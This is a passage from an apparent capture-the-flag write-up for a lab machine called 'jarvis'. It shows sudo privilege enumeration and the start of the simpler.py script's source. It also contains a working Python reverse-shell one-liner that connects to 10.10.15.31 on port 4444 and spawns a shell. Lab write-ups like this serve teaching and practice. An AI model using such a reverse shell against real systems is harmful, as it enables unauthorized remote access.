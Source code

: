     ---
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on jarvis:
        (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    ---

In oder to have a better shell, we use a python reverseshell:

    :::text
    export RHOST="10.10.15.31";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

    $ sudo -l
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on jarvis:
        (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    $ sudo -u pepper /var/www/Admin-Utilities/simpler.py


The `simpler.py` script is the following:

    :::python
    #!/usr/bin/env python3
    from datetime import datetime
    import sys
    import os
    from os import listdir
    import re

    def show_help():
        message='''
    ********************************************************
    * Simpler   -   A simple simplifier ;)                 *
    * Version 1.0                                          *
    ********************************************************
    Usage:  python3 simpler.py [options]

    Options:
        -h/--help   : This help
        -s          : Statistics
        -l          : List the attackers IP
        -p          : ping an attacker IP
        '''
        print(message)

    def show_header():
        print('''***********************************************
        _                 _
    ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
    / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
    \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
    |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                    |_|               |_|    |___/
                                    @ironhackers.es
